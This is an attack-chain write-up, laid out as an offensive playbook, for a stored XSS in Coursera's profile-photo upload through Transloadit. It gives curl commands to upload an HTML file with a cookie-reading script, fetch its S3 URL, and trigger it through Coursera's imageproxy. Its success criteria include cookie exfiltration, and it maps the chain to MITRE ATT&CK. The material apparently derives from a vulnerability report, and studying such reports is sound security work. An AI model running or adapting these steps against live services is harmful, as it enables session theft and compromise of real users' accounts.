

# Stored XSS via Malicious HTML Upload in Coursera Profile Photos

Multi-stage attack chain demonstrating exploitation of a stored XSS vulnerability in Coursera's profile photo upload system through Transloadit, allowing arbitrary JavaScript execution in victims' browsers.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP clients like curl)

### Target Environment

- Web platform with access to Transloadit assemblies endpoint
- AWS S3 bucket (coursera-profile-photos.s3.amazonaws.com)
- Coursera imageproxy endpoint
- No authentication required for Transloadit upload

### Initial Access Requirements

- Public internet access
- Knowledge of Transloadit template_id and auth key (discoverable or assumed from report)
- No prior credentials needed

## Detailed Attack Procedures

### Step 1: Upload Malicious File
procedure: [[procedures/Upload-Malicious-HTML-to-Transloadit-Assembly]]

**Objective**: Upload an HTML file containing JavaScript payload to Transloadit's assembly endpoint, which processes and stores it in Coursera's S3 bucket without proper validation.

**Instructions**: Prepare the malicious HTML file with XSS payload and send a POST request using [[commands/transloadit-upload-malicious-file]]:

```bash
curl -X POST "https://isadora.transloadit.com/assemblies/[hash]?redirect=false" \
  -H "Content-Type: multipart/form-data; boundary=---------------------------185739484714145007371896001880" \
  -H "Referer: https://api.coursera.org/account/profile" \
  --data-binary @- << EOF
-----------------------------185739484714145007371896001880
Content-Disposition: form-data; name="params"

{"max_size":1048576,"auth":{"key":"[hash2]"},"template_id":"[hash3]"}
-----------------------------185739484714145007371896001880
Content-Disposition: form-data; name="my_file"; filename="stored_xss.html"
Content-Type: text/html

<html><script>alert(document.cookie);</script></html>
-----------------------------185739484714145007371896001880--
EOF
```

Replace [hash], [hash2], and [hash3] with actual values from Transloadit.

**Expected Output**: HTTP 200 response with assembly ID for polling.

**Success Indicators**:
- Assembly created successfully
- No authentication errors

### Step 2: Retrieve S3 URL
procedure: [[procedures/Retrieve-S3-URL-from-Transloadit]]

**Objective**: Poll Transloadit to obtain the S3 URL where the malicious file has been stored.

**Instructions**: Use [[commands/transloadit-get-assembly-status]] to GET the assembly status:

```bash
curl "https://isadora.transloadit.com/assemblies/[hash]?seq=0&callback="
```

Replace [hash] with the assembly ID from Step 1.

**Expected Output**: JSON response including the S3 URL, e.g., {"results": {"my_file": [{"url": "http://coursera-profile-photos.s3.amazonaws.com/[redacted]/stored_xss.html"}]}}.

**Success Indicators**:
- S3 URL returned in response
- File accessible at the URL

### Step 3: Trigger XSS Execution
procedure: [[procedures/Trigger-XSS-via-Coursera-Imageproxy]]

**Objective**: Fetch the malicious file through Coursera's imageproxy endpoint, which renders it as HTML and executes the JavaScript payload.

**Instructions**: Construct the imageproxy URL with the S3 link and access it using [[commands/coursera-imageproxy-fetch-malicious-file]]:

```bash
curl "https://www.coursera.org/api/utilities/v1/imageproxy/http://coursera-profile-photos.s3.amazonaws.com/[redacted]/stored_xss.html"
```

Replace [redacted] with the actual path from Step 2. View in a browser to trigger execution.

**Expected Output**: The HTML is rendered, and JavaScript executes (e.g., alert pops up with cookies).

**Success Indicators**:
- JavaScript payload executes in browser
- Cookies or other data exfiltrated

## Attack Chain Summary

### Key Achievements

1. Bypassed file type validation to upload executable HTML
2. Stored malicious content in trusted S3 bucket
3. Achieved stored XSS impacting users viewing profile photos

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[JavaScript]] JavaScript
- [[Remote File Copy]] Ingress Tool Transfer

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution
- [[Collection]] Collection

---
*Last updated: 2023-10-01T00:00:00Z*
